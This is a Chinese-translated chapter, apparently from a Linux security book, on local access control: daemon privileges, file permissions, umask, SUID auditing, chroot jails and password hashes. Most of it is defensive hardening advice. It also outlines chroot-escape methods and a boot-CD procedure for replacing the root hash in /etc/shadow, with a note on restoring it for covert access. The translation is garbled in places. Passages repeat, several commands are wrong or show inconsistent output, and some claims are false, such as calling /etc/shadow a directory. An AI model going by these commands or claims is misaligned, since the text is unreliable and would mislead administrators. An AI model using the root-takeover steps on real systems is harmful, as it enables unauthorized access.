理想情况下，机器应该具有尽可能低的配置，即运行尽可能少的守护进程。此外，所有的守护进程（尤其是网络监听守护进程）在允许其运行的同时，应被仅允许尽可能少的权限。这一建议与当前 Linux 发行版的趋势背道而驰，因为这些发行版试图通过默认安装不断增加的应用程序来与基于 Windows 的服务器和桌面竞争。使用默认的 Linux 安装绝不是好主意（如果有选择的话）。相反，应该进行自定义安装，仅提供需要的软件应用程序。

取决于软件的安装方式，删除它的方法也会所不同。对于使用操作系统自带的包管理器自动安装（如 Suse 的 Yast、Red Hat 的 Yum、基于 apt 的系统等）的软件，使用相同的包管理器将其删除可能是最好的方法。对于 RPM 系统，你可以使用 `-e` 标记。`-e` 代表 erase（删除）。

对于其他手动编译并安装的软件，你需要手动删除它们，除非该安装工具包含了卸载方法。无论如何，在 Linux 中，删除软件就像删除二进制文件、其专有库以及任何引用它们的启动文件一样简单。

### 利用利用守护进程（高权限）

| 流行度: | 8 |

| 简单性: | 6 |

| 影响: | 8 |

| 风险评分: | 7 |

至关重要的是，所有软件都必须更新到最新版本——即补丁中包含安全增强——并禁用或删除任何不必要的软件。这对于网络监听应用程序特别重要，但对于机器上安装的任何软件都是如此。仅仅对于硬件和驱动程序，机器上安装的软件越多，攻击者发现漏洞并提升权限的机会就越多。

理想情况下，机器应该具有尽可能低的配置，即运行尽可能少的守护进程。此外，所有的守护进程（尤其是网络监听守护进程）在允许其运行的同时，应被仅允许尽可能少的权限。这一建议与当前 Linux 发行版的趋势背道而驰，因为这些发行版试图通过默认安装不断增加的应用程序来与基于 Windows 的服务器和桌面竞争。使用默认的 Linux 安装绝不是好主意（如果有选择的话）。相反，应该进行自定义安装，仅提供需要的软件应用程序。

取决于软件的安装方式，删除它的方法也会所不同。对于使用操作系统自带的包管理器自动安装（如 Suse 的 Yast、Red Hat 的 Yum、基于 apt 的系统等）的软件，使用相同的包管理器将其删除可能是最好的方法。对于 RPM 系统，你可以使用 `-e` 标记。`-e` 代表 erase（删除）。

对于其他手动编译并安装的软件，你需要手动删除它们，除非该安装工具包含了卸载方法。无论如何，在 Linux 中，删除软件就像删除二进制文件、其专有库以及任何引用它们的启动文件一样简单。

### 缓解守护进程（高权限）

作为任何机器加固过程的一部分，对运行中的守护进程进行完整审计，以及它们所属的组和它们拥有的文件权限。通过这种方式，你可以准确了解用户/守护进程拥有哪些权限并进行精炼。

为了最佳的安全，所有守护进程（尤其是带有端口的）都应该在自己的账户下运行，并被授予特定的权限。这项工作可能是艰苦的，但回报是值得的。这种安全措施将防御整个系统的漏洞利用。

一些精制的 Linux 软件包（如 Novell 的 Suse）包含了 AppArmor 等应用程序。AppArmor 是一种用于分析应用程序、发现其如何运行，然后将其限制在相应配置范围内的程序。

## 黑客攻防 Linux：Linux 安全秘密与解决方案

### AppArmor 配置分析向导

此向导显示由 AppArmor 访问控制模块生成的条目。通过使用 AppArmor 请求你允许或拒绝访问建议，它可以生成高度优化的安全配置。这些问题是在之前执行应用程序测试期间显示的。下文将详细介绍 AppArmor 使用的安全配置语法。

在任何阶段，你都可以修改建议的响应。更改将出现在你的选项中，请参考 AppArmor 指南。

### 访问模式

文件权限访问由以下六项组合组成：

- r - 读

- w - 写

- m - map_profile_CACC

- p - 离散配置执行

- x - 未命名执行

- l - 链接

访问模式详情

读取模式允许程序对文件具有读取访问权限，授予权限如下

图 4 AppArmor Apache 分析

这项技术接近行为入侵防御系统技术，并简化了锁定许多应用程序（如守护进程）的过程。图 4-4 展示了分析过程。AppArmor 允许你逐步执行程序并接受或拒绝某些行为。

### 文件权限与属性

本节深入探讨有关文件权限和属性的概念。Linux 及其相应的应用程序和工具默认就存在针对安全和机密性的重大漏洞，这些漏洞都可以通过适当配置来缓解。

### 弱文件权限与属性利用

| 流行度: 10 |

| 简单性: 10 |

| 影响: 10 |

| 风险评分: 10 |

Linux 通常拥有不用于特权管理目的的普通用户账户。这些账户默认情况下可用于收集敏感系统数据或其他用户存储的数据，并经常会对其进行不希望或危险的更改。

默认情况下，文件权限通常允许用户对系统上的大多数文件具有读取权限。虽然这对于让系统上的所有内容以最小努力正常运行，同时限制用户修改他们不应修改的文件是有利的，但它为攻击者执行某种不利程度的窥探提供了途径。

如果不在家目录或其他敏感或个人文件的位置上仔细处理所有者（Owner）、用户组（Group）和所有人（Everyone）权限，这尤其是一个令人担心的问题。如果员工不打算与某组人员共享文件，那么该员工的用户账户将属于一个该用户账户唯一的初始组，该组名称可能与所有者同名。该用户创建的所有文件也将分配给该用户特有的组。

以下是一个默认的非特权用户账户 `test1`，以及为 `test1` 创建的文件分配的默认所有者/组/所有人权限的示例：

```
test1@linux:~/home/test1$ touch testfile
test1@linux:~/home/test1$ ls -l
total 0
-rw-r--r-- 1 test1 0 Oct 10 11:29 testfile
test1@linux:~/home/test1$
```

注意，尽管文件归 `test1` 所有，但用户组可以读取它（所有新用户默认都被分配到该组），并且“所有人”组也可以读取它。这不利于机密性，但很容易修复。

### 保护文件权限和属性

通过文件权限和属性提供合理安全性的重要性无论如何强调都不为过。当软件发现安全漏洞或攻击者获得机器的物理访问权限时，它们是防止文件系统发生意外更改的第一道、有时也是最后一道防线。取决于文件权限和属性中安全实现的深度，根据攻击者的技能水平和决心，攻击者可能会被显著延迟或完全禁止。

### 标准用户权限

正如对守护进程（daemons）的用户权限需要经过深思熟虑的计划、配置和审计一样，标准非特权用户的用户权限也需要类似的对待。在设置和审计权限时，机密性绝对是一个可以且应该被解决的问题。

以下是防止由于权限过弱导致利用和数据泄露的方法。以 `root` 身份创建一个特定用户的组 `test1` 并将其分配给 `test1` 用户账户：

```
linux:: # groupadd test1
linux:: # usermod -g test1 test1
```

在下面的示例中，当用户 `test1` 使用新的组设置创建文件 `testfile` 时，观察自动分配给文件的组权限：

```
test1@linux:~ touch testfile
test1@linux:~ ls -l
total 0
--rw-r--r-- 1 test1 test1 0 Oct 10 11:30 testfile
```

虽然事实如此，但你可能需要修改上述文件权限以防止“所有人”访问该文件。你可以使用 `chmod` 轻松地做到这一点：

```
test1@linux:~ chmod 640 testfile
test1@linux:~ ls -l
total 0
--rw-r--r-- 1 test1 test1 0 Oct 10 11:30 testfile
```

现在，如果文件的预期所有者（以及 `root`）对它们具有任何级别的访问（读取、写入或执行）。如果用户是只需要访问他们自己的文件的伙伴，这是一个很好的解决方案；但如果用户打算与他人共享文件，而不需要每次共享时都更改权限，则需要不同的配置。

如果用户应该与部门内的其他人共享文件，则应该创建一个部门组，并将部门内的所有用户分配到该组作为他们的初始组。如果所有用户都被分配到同一个组，他们创建的所有文件都将赋予相应组成员读取权限，但对于组写入的文件，必须分配更大的权限。

### Umask


`chmod`是偶尔手动进行更改的极佳工具。如果在特定环境中创建的所有文件都需要一组特定的权限，`umask`是一个自动分配权限的极佳实用。

在环境中创建的文件和文件夹的标准`umask`权限为`0022`，这意味着创建的文件将获得分配`644`(`rw-r--r--`)权限，文件夹将具有`755`(`rwx-xr-x`)。更安全的`umask`设置为`0037`。

这强制文件以`640`(`rw-r---`)的权限创建，文件夹具有`750`(`rwx-x---`)，从而创建了一种默认假设并应用机密性的情况。有关配置步骤和概念验证结果，请参阅以下示例：

```
linux:/home/test1/umask_folder # umask
0022
linux:/home/test1/umask_folder # umask 037
linux:/home/test1/umask_folder # umask
0037
linux:/home/test1/umask_folder # su test1
test1@linux:/home/test1/umask_folder> touch testfile
test1@linux:/home/test1/umask_folder> ls -l
total 0
-rw-r----- 1 test1 0 10 11:40 testfile
```

然而，`umask`工具产生的更改可能会产生深远的、不可预见的后果，例如服务器上的进程可能不再无法运行或按预期运行。在完成所需的更改后，验证服务器上的操作是否按预期运行。

此外，由于`umask`配置需要向 shell 的 rc（profile、bash 等）中插入条目以实现持久化，请检查这些位置并根据需要进行修改。如果你不这样做，当你重启机器时，之前的`umask`配置将恢复。

### 不必要的访问枚举

正如我们已经建立的那样，策略是仅授予用户对系统及其内容的特定访问权限，以识别所有可能被意外用户访问或修改的内容，并被用于损害系统及其内容的机密性、完整性或安全性。你应该考虑几个几项。首先，识别所有世界可写的文件，这些文件可能对系统或数据的机密性、完整性或安全性构成风险并被修改。

**世界可写文件** 下面的命令将检查文件系统并识别世界可写的文件和目录，恶意用户可以修改它们并可能提升其在系统的权限。为了示例的简洁，该命令限制在`/tmp`的内容，甚至是根目录本身：

```
linux:/tmp # find /tmp -o=w
/tmp
/tmp/world_writable
/tmp/.X11-unix
/tmp/.ICE-unix
```

# 暴露的 Linux：Linux 秘密与解决方案

将之前的输出与下面的`ls`输出进行比较，注意它成功识别了所有者可写的文件，忽略了具有更严格权限的所有者可写文件：

```
linux:/tmp ls -al
total 0
drwxrwxrwt 4 root 140 Mar 3 09:59 ./
drwxr-xr-x 10 root 220 Mar 3 09:54 ..
drwxrwxrwt 2 root root 60 Mar 3 09:55 .ICE-unix/
drwxrwxrxrwt 2 root root 60 Mar 3 09:55 .X11-unix/
-rw-r--r-- 1 root 0 Mar 3 09:59 owner_writable*
-rwxrwxrxwt 1 root root 0 Mar 3 09:59 world_writable*
```

**世界执行文件** 正如你必须识别世界可写的文件，你还必须枚举系统中所有可以由限制用户账户执行并可能直接或间接用于提升限制用户权限的二进制文件。下面的命令将枚举`/bin`目录中可以被系统上的任何用户执行的所有受限二进制文件：

```
linux:/bin # find /bin -perm -o=x
/bin
/bin/ash
/bin/awk
/bin/basename
/bin/bash
/bin/bunzip2
/bin/bzcat
/bin/bzip
/bin/bzip2recover
/bin/cat
/bin/chgrp
/bin/chmod
/bin/chown
/bin/chroot
~~~~~~~~~~~~~~~~~~~~~~~~~
/bin/unlink
/bin/users
/bin/vdir
/bin/wc
/bin/which
/bin/who
/bin/whoami
/bin/yes
/bin/ypdomainname
/bin/zcat
```

## 第 4 章：本地访问控制

虽然这看起来可能并不是即时威胁，但将世界可写的文件和文件夹与 ftp、Netcat 或其他工具结合，可能会导致攻击者利用他们提供的有限访问权限向系统上传其获取 root 权限所需的资源。

### SetUID/SUID/SGID 位

在 Linux 的某些发行版和安装版本中，SetUID/SUID/SGID 位被设定为允许二进制文件以 root 权限运行并在系统中可靠地工作。这确保了二进制文件在完成其特定任务时不会遇到任何权限问题，因为它们对系统资源具有完全访问权限。这也为合法用户和攻击者提供了极大的便利性。

尽管这从一开始就是个坏主意，并且已有大量的相关介绍，但你今天仍然经常看到这种配置。你绝对需要审核此项，特别是考虑到如今进程和驱动程序漏洞在攻击中被利用的情况日益增加。作为对任何系统进行安全审计的一部分，搜索带有 SetUID/SUID/SGID 位的项是有关重要的。使用以下两个命令来执行此操作：

SetUID/SUID/SGID:

```
find / -type f -perm 0400 -ls
```

SGID:

```
find / -type f -perm 02000 -ls
```

一旦识别出设置了 SetUID/SUID/SGID 位的二进制文件，可以使用以下命令将其删除。但是，请务必小心！在对这些项进行修改后，确保充分测试系统，因为它们可能会产生深远的影响：

```
SetUID/SUID:
chmod -R u-s /var/directory/
chmod u-s /usr/bin/file
```

```
SGID:
chmod -R g-s /var/directory/
chmod g-s /usr/bin/file
```

### 限制修改系统的能力

Linux 环境最好的安全增强措施是限制或消除对其进行任何更改的能力。在 Linux 机器完全设置、调优并加固后，开始消除任何可用于审计、调试或反向工程的工具。通过妥善规划和测试文件权限及属性，识别所有绝对不需要更改的文件，例如关键系统文件（或其他任何不能更改的文件），并将它们设为不可变（immutable）。

# 黑客攻防 Linux：Linux 安全秘密与解决方案

不可变文件是设置了不可变标志（使用`chattr`命令）的文件，这些文件无法被修改或删除，即使是 root，除非移除标志。按照以下方式设置不可变标志：

```
chattr +i /var/test_file
```

可以使用`lsattr`命令识别不可变属性。如果设置了不可变标志，输出列表中将包含一个`i`：

```
lsattr test_file
------i------
```

接下来，考虑如果某台特定机器的意图是完全加固并在相当长的时间内不修改，那么没有理由保留安装开发环境，因为它很可能被用在坏处。如果攻击者在机器上获得了某种程度的访问权限，你不希望给他们提供任何让其工作变得更容易的工具。

同样，一旦硬件安装并正常工作，该机器就不需要支持可加载内核模块。在一个没有任何硬件升级或模块更新的稳定系统中，此功能可能会降低安全性，而不是增加安全性。安装根根工具（rootkit）就是一个降低安全性的典型例子。

移除所有静态文件的访问权限，并对不更改的系统文件和工具设置不可变标志。注意不要对日志或其他动态文件设置写入权限。如果以后需要访问，你始终可以使用 root 权限获取。

最后，尽可能消除调试或反向工程工具。攻击者可以将所有这些工具用于非法目的。特别是，如果机器在物理上是可以访问的，你不需要安装它们，因为它们可以从静态编译或自包含的 CD 环境从 运行。

### 数据完整性

市场上上有多种自动化和手动数据完整性工具。有些随 Linux 发行版免费提供，另一些作为企业级提供并花费数万美元。有些需要 3000 美元的培训课程，另一些带有帮助页。甚至有著名的取证软件可以在 Linux 节点运行，其优点是在攻击后对系统进行分析，并识别攻击后上传的、恶意的、更改的或隐藏的文件或进程。

功能方面无限。无论是使用什么方法来监控环境，还是作为审计的一部分进行建议或实施，都应该遵循一些基本指南以确保数据完整性系统正常运行。

首先，双击正在监控的文件，确保由于升级、安全补丁或安装额外软件而添加的所有关键系统文件。每当执行补丁或升级或安装新软件时，你都应该检查此项。

其次，更具体地说，确保只监控关键系统文件。许多组织和管理员有一个坏习惯，即对过多的文件执行数据完整性检查，最终忽略了扫描结果。

第三，确保以合理的频率运行和更新数据完整性过程。扫描应该足够频繁，以便在问题变得过大之前发现，但又不至于负担太大而导致忽视。此外，在执行补丁或安装新软件后立即运行完整性扫描（以验证系统处于清洁状态），并在之后立即运行（以使用有关更新文件的新数据更新数据库）。

最后，确保从被监控的系统中备份数据库。攻击者可以获得系统的权限并更改文件哈希数据库（如果管理员对密码选择不粗心），或损坏/删除它使其失效。

数据完整性的下一步是将受监控系统的所有可测量功能方面整合到一个文件中。除了传统的基线镜像（baseline image），还需要包括：

- 所有运行的进程（包括完整路径）

- 系统账户

- 系统库（包括完整路径）

- 打开的文件（包括完整路径）

- 安装的文件（包括完整路径）

- 用户账户 (`/etc/passwd`)

- 组 (`/etc/group`)

- `/etc/shadow` 文件

- 加载的模块

- 安装的设备

- 文件权限（如不可变）

- 操作系统驱动

- `/etc/init.d` 目录

- `/etc/init.d` 中的文件符号链接

- 其他配置文件（以确保完整）

例如，即使某个公司资源不包含高度敏感数据（从监管角度来看，例如信用卡号或银行账户），但如果它是公开访问的，或者可能包含令客户感到尴尬的数据，对其进行加固以防入侵也是明智的举措。公司公告板就是一个很好的例子。它们很少包含真正敏感的数据，但如果公告板服务器被破解，人们记住的“公司 X 公告板被黑”这一标题中唯一的部分是“公司 X 被黑了”。

此外，客户经常会在公告板上发布敏感信息，从而暴露漏洞，特别是当这些板块属于安全或信息技术基础设施时。如果此类公告板被破解，就可以识别并适当利用有关客户的漏洞。

自主访问控制（Discretionary Access Control DAC）是最简单的访问控制，管理开销最低，提供的安全级别也最低。它基于这样一个假设：所有者应该被允许控制自己的数据。所有者可以自由且不受束缚地向他人提供任何级别的访问（或不提供），并可以直接（或无意中）修改和删除自己的任何数据。

他们还可以修改和删除他们被赋予足够权限的其他数据。防止数据丢失的唯一真实措施是责任心、良好的备份方案和/或数据恢复（计算机取证）软件。这种访问控制模型由于其易于使用且无需管理而可能是最常见的，这促进了数据恢复软件行业的成功，同时也为黑客提供了容易攻击的目标。

该模型中实现的唯一安全功能或访问控制由数据所有者配置。通过将完全控制权交给数据所有者，隐含了数据所有者将在管理数据、应用程序或业务流程时做出明智且审慎的决定。

出于这些原因，这种访问控制模型不应用于业务关键或敏感数据处理。事实证明，数据所有者并不一定是敏感和业务关键数据的最佳管理者。在将 DAC 用于敏感资源的环境中，数据丢失和未经授权（或无意）的访问是常有的。

强制访问控制（Mandatory Access Control MAC）是一种比 DAC 更新、更复杂的访问控制模型，需要更大量的管理配置和控制。它将数据的控制权从所有者手中夺回，交给管理人员，由管理人员仅为所有者分配所需的访问级别。

它防止所有者向资源授予比管理人员分配更宽松的权限，并防止一个级别的用户访问不同级别的数据。此外，数据所有者不再可以自由地向他人授予权限；他们对自己数据的操作通常受到限制。例如，MAC 的许多实现允许所有者创建数据但不能删除，从而保护所有者免受自身及他人的侵害。

本质上，MAC 防止数据、进程和应用程序受到误用、滥用、简单失误或违规行为。它的功能介于《Hacking Exposed Linux: Linux Security Secrets & Solutions》这种无知状态的补丁与防止攻击的护盾之间。它的目标是创建一个精心规划的架构，为每个资源专门授予所需的访问级别，从而创造一个用户仅拥有他们所需的权限的环境——不多不少，也不少。

该模型需要大量的管理开销来对各种资源（无论是文件系统、设备、应用程序还是业务流程）进行必要的配置。管理人员需要深思且有方法地映射用户如何访问资源，并据此授予相应的访问。

在较新的 Linux 发行版中，MAC 功能已内置在内核中。不同的 Linux 发行版还有其他更具体的 MAC 包，提供了对内核中添加的功能的增强。

### 基于角色的访问控制

RBAC 是一种较新的替代访问控制模型，它利用了 MAC 粒度访问配置的优势，但通过控制提供了更大的可扩展性。RBAC 不是为用户分配特定的资源访问权限，而是将资源分配给组织内存在的各种类型的角色。根据每个访问需求为用户分配特定的角色。

角色应为每个系统、应用程序或设备专门设置。它们不应跨越多个系统、应用程序或设备。将单个角色分配给多个系统、应用程序或设备被认为是不良良的做法，也不符合最佳实践。单个角色内部已经存在大量的权限组合，尝试将多个异构系统的权限组合到单个角色中会变得繁琐且问题百出。

为了增加角色分配的粒度并提供更强的可性：

- 用户可以被分配多个角色。

- 角色可以分配给多个用户。

- 角色可以被分配多个权限。

- 权限可以分配给多个角色。

这有效地创建了一个允许所有权限组合的多对多关系，但通过将权限分配分组为相应角色的简化方法来实现。

这种方法需要花费更多时间设置，以完全映射环境中存在的角色。但一旦定义了资源并创建了角色，跨环境中各种资源为新用户授予特定访问权限所需的时间大大减少。

目前有多种安全的 Linux 发行版和提供各种 RBAC 措施的补丁可用。从 2.6 内核开始，由 NSA 提供的安全增强 Linux（SELinux）已内置到 Linux 内核中，并提供了 RBAC 措施。

## 第 4 章：本地访问控制

GRSecurity 还提供了几个可下载的补丁，可以最大限地减少创建稳健 RBAC 系统所需的配置。

### chroot

在安全系统方面投入的工作量可以通过利用某些应用程序内置的 chroot 能力，或使用 Linux 包含或可以编译进 Linux 的 chroot 功能来部分缓解。`chroot`是两个单词的组合：change（更改）和 root（根）。正如名称所示，`chroot`更改了登录用户或应用程序的根目录。它创建了一个沙箱化的虚拟目录，用于为用户或应用程序提供对有限资源子集的访问。

某些守护进程（如 FTP 和 SSH）具有内置或插件功能，可以在精心构建的环境中对用户进行沙箱化处理。这为用户提供了一个模拟且简化的文件结构，并且仅包含所需的执行文件、库、配置文件等。更具体地说，当用户登录到 chroot 系统时，他们实际上并不允许浏览计算机的真实文件系统。他们能够看到的根目录是分配给他们的子目录，包含了执行其功能所需的所有执行文件和依赖项。理论上，chroot 用户无法直接访问外部环境。然而，chroot 环境内部的文件或目录与 chroot 环境外部的文件之间可能存在某些硬链接，如果内部使用了符号链接，可能会导致用户获得原本无法获得的“逃离监牢”的能力。

然而，对于 OpenSSH 等应用程序进行 chroot 比其他应用程序要简单得多，因为 OpenSSH 会先初始化，稍后执行 chroot。这意味着不需要一个那么全面的 chroot 环境。其他应用程序通过各种其他方式进行 chroot，例如通过使用配置或使用 chroot 命令行工具。

与 FTP 和 SSH 的原生能力类似，许多守护进程也提供了类似的功能，只不过它仅用于运行该守护进程的用户账户。这意味着如果攻击者获取了 chroot 守护进程的控制，他们将被限制在沙箱环境中。

### 识别依赖

可以使用各种 Linux 工具手动完成识别和拷贝各种依赖项及配置文件的过程，如下。

# Hacking Exposed Linux: Linux 安全秘密与解决方案

- `strace` 一种用于跟踪系统调用并列出所有文件（配置文件）的工具。

- `ldd` 一用于列出可执行文件库依赖的工具，但它不会列出配置文件或打开的文件。

```
linux:/bin # ldd ssh
linux-gate.so.1 => (0xffff00)
libwrap.so => /lib/libwrap.so (0x0402d000)
libpam.so => /lib/libpam.so (0x040035000)
```

- `lsof` 一种列出特定守护进程正在使用的所有文件的工具。

```
linux:/usr/bin lsof | grep ssh
sshd 7587 root cwd DIR 3,3 656 2/
sshd 7587 root rtd DIR 3,3 656 2/
sshd 7587 root txt REG 3,5 350762 45539
  /usr/sbin/ssh
sshd 7587 root mem REG 3,3 107969 116
  /lib/ld-2.3.3.so
sshd 7587 root mem REG 3,3 36895 67
  /lib/libwrap.so.0.7.6
```


通常情况下，使用多个工具来验证数据是良好的。这确保了对守护进程如何运行有全面的理解，并提供了用一个工具的输出验证另一个工具输出的机会。使应用程序在 chroot 根目录切换环境中运行的整个过程可以通过静态编译应用程序（即将所有库依赖编译到守护进程中，从而不再需要外部资源）来简化。这是一种“黑客技巧”，往往会占用更多的文件系统空间，但它可以使整个操作变得更简单。

### 静态编译二进制文件

创建静态编译的二进制文件与其说是科学，不如说门艺术（而且并不总是可行），尝试构建大量静态编译二进制文件的行为是不精确且困难的。你可以使用几种方法来编译静态二进制文件，但尽管使用了看似正确的参数来构建静态编译二进制文件，你无法保证真的获得了一个。

然而，在大多数情况下，过程进展顺利，并且通常被证明简化了 chroot 过程，因为静态编译的二进制文件可以复制到每个 chroot 目录，而无需考虑它们的底层依赖项。此外，更新也变得简单了。

创建静态编译二进制文件的标志位于两个位置之一：要么来自构建的 `/configure` 部分，要么来自构建的 `make` 部分，取决于应用程序的设计。以下是几个常见的简化示例。

来自 `./configure` 命令：

```
/configure --static
```

来自 `make` 命令：

```
make CC="gcc -static"
```

或者

```
make -e LDFLAGS=-all-static
```

如前所述，指定文档中记录的正确标志并不能保证一定能得到一个静态编译的二进制文件。你必须使用 `ldd` 或类似的工具验证二进制文件是否已成功编译：

```
mail:/opt/static # ldd bash
      not a dynamic executable
```

上述输出表明 `bash` 二进制文件已成功静态编译。但是，很多时候，你会发现该二进制文件仍然有动态链接：

```
mail:/opt/static # ldd /bin/bash
linux-gate.so.2 => (0xffff000)
libreadline.so.4 => /lib/readline.so.4 (0x4002d000)
libhistory.so.4 => /lib/history.so.4 (0x40059000)
libnurses.so.5 => /lib/libnurses.so.5 (0x40060000)
libdl.so.2 => /lib/libdl.so.2 (0x400a5000)
libc.so.6 => /lib/tls/libc.so.6 (0x400a9000)
lib/ld-linux.so.2 (0x40000000)
```

### 向 Chroot 监狱添加文件和依赖项

在向 chroot 监狱添加文件时，请记住尽可能限制进入监狱的内容。每添加一个文件，都要确定该文件对于环境来说是绝对必要的，还是为了方便而添加的。始终采取必要的额外步骤，以确保不走捷径，并让监狱只包含它所需要的内容。

在以下环境中应该存在什么呢？普通文件系统的简化副本。它至少包含以下文件夹，并且可能更多，取决于在 chroot 环境运行的守护进程：

```
/chroot/daemon_name/bin
/chroot/daemon_name/dev
/chroot/daemon_name/etc
/chroot/daemon_name/lib
/chroot/daemon_name/var
/chroot/daemon_name/var/run
```

尽管如此，要意识到监狱的目的是，并添加有助于逃逸监狱的文件或功能。一个配备了所有逃逸所需功能的 chroot 监狱是没有意义的。请遵循以下指南：

- 永远不要在监狱中放入编译器，因为它几乎肯定会被用于坏事。
- 永远不要在监狱中放入 Perl 解释器，因为它本质上是一个编译器。
- 永远不要在 chroot 监狱中包含 `sudo`，因为这完全违背了 chroot 的目的。
- 确保监狱中的所有可执行文件和依赖项都不会受到任何类型漏洞的影响，因为这可能允许攻击者逃逸监狱。
- 不要包含任何必须以 root 身份运行的内容。
- 不要包含任何使用 SUID 的内容。
- 如果可能，防止对环境进行写入或修改。

### 设备 chroot

将守护进程和依赖项移动到 chroot 环境是第一步。下一步为 chroot 环境创建设备。这是必要的，因为从 chroot 监狱内部无法访问 `/dev` 目录。因此，用户或守护进程使用的所有设备必须在监狱内创建。

与列出文件和库一样，`trace`（或 `truss`）可能有助于在执行可执行运行时跟踪它并记录它尝试访问的设备。然而，考虑到如果不穷尽地执行所有可能的标志组合，`trace`（或 `truss`）可能不会显示所有所需的设备，因此在每个守护进程上使用 `strings` 工具对于列出设备也有帮助。如果这不起作用，最好的办法是检查各种日志文件与所需设备相关的提示。

以下是可能包含的常用设备列表：

```
/dev/null
/dev/zero
/dev/random
/dev/urandom
/dev/log
/dev/tcp
/dev/udp
```

### 逃逸 chroot 监狱 (Chroot Jail)

| 流行度 | 5 |
| :--- | :--- |
| 简单性 | 3 |
| 影响力 | 8 |
| 风险等级：5 |  |

一种记录详尽的逃逸 chroot 监狱的方法涉及几个组件。首先，它要求环境内的守护进程或用户以 root 身份运行，或者存在允许其获取 root 权限的漏洞或功能。其次，它要求在环境中创建一个新文件夹。用户或守护进程切换到该文件夹，并将该文件夹设置为新的 chroot 目录。第三，用户执行 `cd` ... 逃离 chroot 环境，现在能够遍历真实的文件系统并拥有 root 权限。这是一种非常糟糕的局面。

除了上述为人知的攻击手段外，还有几个值得提到的：

- 加载内核模块（需要 `CAP_SYS_MODULE`）
- `ptrace()` 代码注入（另见短语 59）
- 滥用挂载（Mount）来访问虚拟文件系统（procfs, devfs, devpts）（需要 `CAP_SYS_ADMIN`）
- 滥用 `ioctl()` 设置虚假挂载路径
- 其他具有 `uid=0` 的：直接访问 I/O 端口、嗅探网络流量、伪装本地服务（如 `sshd` 或 `telnet`）、或管理过滤规则对进入和流出的连接进行中间人攻击
- 其他具有 `uid!=0` 的：利用本地服务、利用内核漏洞以及利用特定应用程序的入口点

然而，观察逃逸监狱的高级步骤可以显而易见，一旦用户或守护进程获得 root 权限，问题就会出现，并且由于 `chroot()` 函数在监狱内运行而进一步加剧了这种情况。这可能是由于程序员的捷径、对监狱中包含的工具类型缺乏远见、其中一个应用程序的漏洞，或者由于监狱设置配置不当所导致的。这些都是人为错误或缺乏妥善管理的结果。

### 防止逃离 chroot 监狱

chroot 监狱的破除是可以避免的，但需要大量的关注、考虑、维护和尽密的测试，以确保环境在投入生产之前以及在通过定期更新修改之后能够按照预期正常工作。维护部分通常是循环失效的地方，因为人们倾向于设置好 chrooted 环境后置之不管。考虑到漏洞被识别和相应利用程序创建的速度，这无异于自寻死路。

恶意方可以利用 Linux 设计中内置的管理活动来获取非预期的访问。密码恢复就是其中一个功能。管理员必须采取适当预防措施，确保系统受到充分保护，防止非预期用户进行密码恢复。

### 物理访问、加密与密码恢复

| 流行度：8 |  |
| :--- | :--- |
| 简单性：7 |  |
| 影响力：10 |  |
| 风险等级：8 |  |

有许多不同的认证方案与 Linux 类似，但本地密码到目前仍是最常见的方法。现代 Linux 系统中的本地密码存储在 `/etc/shadow` 目录中，使用 DES、MD5 或 Blowfish 哈希算法以及某种形式的密码盐（salt）。

在这三种方法中，DES 是默认使用的密码加密方法（特别是在旧系统中），应该更改为 Blowfish；DES 仅允许 8 字节的密码，而 MD5 由于碰撞问题（发现多个输入具有相同的 MD5 哈希值）、已公布的 MD5 彩虹表以及不断提高的处理器速度，现在被认为是有问题的。此外，MD5 中已被发现了允许暴力破解的捷径。攻击者还发现，切掉前 4 个字节比尝试暴力破解更快。

密码盐通过在哈希算法提供的基础上额外增加特定比特的扰动（取决于哈希算法），在密码哈希中引入了进一步的复杂性。本质上，它的目的是增加密码复杂性，提供针对暴力攻击的更强保护。

此外，如果用户能够访问 `/etc/shadow` 文件，盐还可以防止用户识别出具有相同密码的其他账户。具体来说，如果两个用户账户具有相同的密码，它们的密码哈希值仍然是不同的，因为用于密码的盐是随机的，使得密码哈希值完全不同。

盐还可以用于识别用于密码的单向哈希算法。例如，使用 MD5 加密的密码开头会有一个 `"1$"`。

## 第 4 章：本地访问控制

同样，带有 `"$2"` 的是使用 Blowfish 加密的密码。以下划线 `_` 开头的哈希使用 DES 和用户指定的数量的扰动加密。以任何其他字符开头的哈希使用固定数量的扰动。

### 本地密码恢复

识别正确的密码哈希算法对于暴力破解密码至关重要。在彩虹表和经典的暴力破解尝试中情况如此。如果只需要获取机器本身的 root 权限，而无需额外的暴力破解工作，这也是必须的。

如前所述，从物理安全的角度来看，你只需要执行以下操作即可实现 root 登录：

- 物理访问机器
- 获取 Linux 启动光 (BackTrack, Knoppix-STD, Aridus...)
- 获取一组使用相同盐的加盐密码哈希值
- 获取目标系统使用的单向哈希算法
- 利用你删除目标系统上密码的能力，或从文本文件中复制并粘贴密码，以覆盖目标系统 `/etc/shadow` 文件中的 root 密码

顺便提一下，你可能还想从目标系统复制 root 密码，以便以后（如果需要）再次包含它。这在任何种需要保持系统不被修改的秘密行动中特别有帮助。

理论上，可以完全从目标用户中删除密码。在目标系统上删除密码或从文本文件中复制并粘贴密码以覆盖目标系统 `/etc/shadow` 文件中的 root 密码，你也可以复制 root 密码，以便以后如果需要）再次包含它。

# 虚拟化用于服务器加固 (后续内容略)


一种记录详尽的逃逸 `chroot` 监狱的方法涉及几个组件。首先，它要求环境内的守护进程或用户以 `root` 身份运行，或者存在允许其获取 `root` 权限的漏洞或功能。其次，它要求在环境中创建一个新文件夹。用户或守护进程切换到该文件夹，并将该文件夹设置为新的 `chroot` 目录。第三，用户执行 `cd` ... 逃离 `chroot` 环境，现在能够遍历真实的文件系统并拥有 `root` 权限。这是一种非常糟糕的局面。

除了上述为人知的攻击手段外，还有几个值得提到的：

- 加载内核模块（需要 `CAP_SYS_MODULE`）

- `ptrace()` 代码注入（另见短语 59）

- 滥用挂载（`Mount`）来访问虚拟文件系统（`procfs`, `devfs`, `devpts`）（需要 `CAP_SYS_ADMIN`）

- 滥用 `ioctl()` 设置虚假挂载路径

- 其他具有 `uid=0` 的：直接访问 I/O 端口、嗅探网络流量、伪装本地服务（如 `sshd` 或 `telnet`）、或管理过滤规则对进入和流出的连接进行中间人攻击

- 其他具有 `uid!=0` 的：利用本地服务、利用内核漏洞以及利用特定应用程序的入口点

